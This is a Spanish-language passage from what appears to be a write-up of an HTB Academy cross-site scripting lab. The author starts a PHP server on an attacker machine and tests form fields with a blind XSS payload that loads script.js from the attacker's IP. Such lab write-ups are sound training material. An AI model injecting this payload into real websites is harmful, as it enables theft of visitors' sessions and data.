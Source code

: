 La carpeta del servidor atacante contiene estos ficheros.

![alt text](../assets/images/HTB_Academy_XSS/image-62.png)

Levanto el servidor PHP

```sh
sudo php -S 0.0.0.0:8080
```

![alt text](../assets/images/HTB_Academy_XSS/image-64.png)

Ahora compruebo cada uno de los campos con el contenido:

```html
"><script src=http://10.10.15.192:8080/script.js></script>
```

![alt text](../assets/images/HTB_Academy_XSS/image-65.png)
